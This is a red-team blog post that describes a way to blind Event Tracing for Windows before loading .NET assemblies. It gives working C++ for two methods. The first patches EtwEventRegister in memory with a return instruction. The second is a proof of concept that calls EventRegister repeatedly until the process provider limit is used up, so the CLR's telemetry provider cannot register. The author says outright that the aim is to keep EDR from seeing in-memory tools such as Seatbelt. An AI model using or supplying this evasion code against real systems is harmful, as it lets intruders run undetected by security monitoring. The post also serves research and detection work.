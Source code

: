 ```yaml
---
layout: post
title: A Novel Method for Bypassing ETW
date: '2023-03-15 00:00:00'
img_path: /assets/img/2023-03-15/
categories: ['Red Team', 'Windows']
tags: []
---
```

I wanted to bypass Event Tracing for Windows (ETW) without any memory patching or hardware breakpoints.  The purpose of breaking ETW is almost always to prevent EDR from gaining telemetry on the execution of C# assemblies. An example of some of the telemetry is shown below with the execution of Seatbelt in-memory inside the NanoBeacon process:

![ProcessHacker shows loaded .Net assemblies](bad.png)

The current public methods of breaking ETW all patch functions in memory. They do something like this:
```c++
BOOL patchETW(BOOL revertETW) {
#ifdef _M_AMD64
    const SIZE_T patchSize = 1;
    unsigned char etwPatch[] = { 0xc3 }; // ret
    unsigned char etwrevert[] = { 0x40 };
#elif defined(_M_IX86)
    const SIZE_T patchSize = 3;
    unsigned char etwPatch[] = { 0xc2, 0x14, 0x00 };
    unsigned char etwrevert[] = { 0x8b, 0xff, 0x55 };
#endif

    //Get pointer to EtwEventWrite 
    void* pAddress = (PVOID)GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventRegister");
    PVOID lpBaseAddress = pAddress;
    ULONG OldProtection, NewProtection;
    ULONG uSize = patchSize;
    //Change memory protection via NTProtectVirtualMemory
    NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, PAGE_READWRITE, &OldProtection);
    //Patch EtwEventRegister via NTWriteVirtualMemory
    status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)(revertETW ? etwrevert : etwPatch), patchSize, NULL);
    //Revert back memory protection via NTProtectVirtualMemory
    status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, OldProtection, &NewProtection);
    return 1;
}
```

These could be detected by EDR that have the `NtProtectVirtualMemory` and `NtWriteVirtualMemory` functions hooked. 

There are approaches that take advantage of hardware breakpoints to redirect execution flow without any memory patching. However this method have many downsides like the risk of the hardware breakpoint being detected, and the implementation being very difficult. There are also as far as I know no public tools that demo this for bypassing ETW and that’s because, the .Net Common Language Runtime (CLR) when loaded, starts it own threads, which you’d need to somehow hijack to setup the hardware breakpoint, which then _often_ leads to  patching memory, so it’s just the above method with extra steps.

There is a solution, that’s easy to implement and very effective at the time of writing. The [EventRegister](https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventregister) function:
> Registers an ETW event provider, creating a handle that can be used to write ETW events.

This is the function used by software to create an ETW provider which can then be used to send ETW events. The CLR (which is clr.dll at its core) calls the `EventRegister()` when being loaded to be able to provide the telemetry to EDRs or consumers like ProcessHacker.

An important note on `EventRegister` is that programs should ignore the return value, and just continue working: 
> Most production code should continue to run even if an ETW provider failed to register, so release builds should usually ignore the error code returned by `EventRegister`.

So, my question is, how many ETW event providers can the system/process have? Well, it turns out that a process can have at most [2048](https://www.geoffchappell.com/studies/windows/win32/ntdll/api/etw/evntsup/reghandle.htm). So, if a malicious program calls `EventRegister` 2048 times, or better yet, until an error occures, before loading the CLR, there cannot be any further event providers in the process.

My proof-of-concept code is below which demonstrates spamming the `EventRegister` function to fill the kernel mode red-black tree thus preventing further ETW providers for registering.
```c++
void breakETW_Forever() {
    DWORD status = ERROR_SUCCESS;
    REGHANDLE RegistrationHandle = NULL;
    const GUID ProviderGuid = { 0x230d3ce1, 0xbccc, 0x124e, {0x93, 0x1b, 0xd9, 0xcc, 0x2e, 0xee, 0x27, 0xe4} }; //.NET Common Language Runtime
    int count = 0;
    while (status = EventRegister(&ProviderGuid, NULL, NULL, &RegistrationHandle) == ERROR_SUCCESS) {
        count++;
    }
    //printf("%d\n", count);
}
```

And this is how ProcessHacker .Net assemblies tab looks running Seatbelt in-memory after executing the PoC:
![ProcessHacker shows nothing](good.png)

There is no ETW telemetry so anyone consuming ETW events (_cough_ EDR _cough_) would be blind to the execution. 
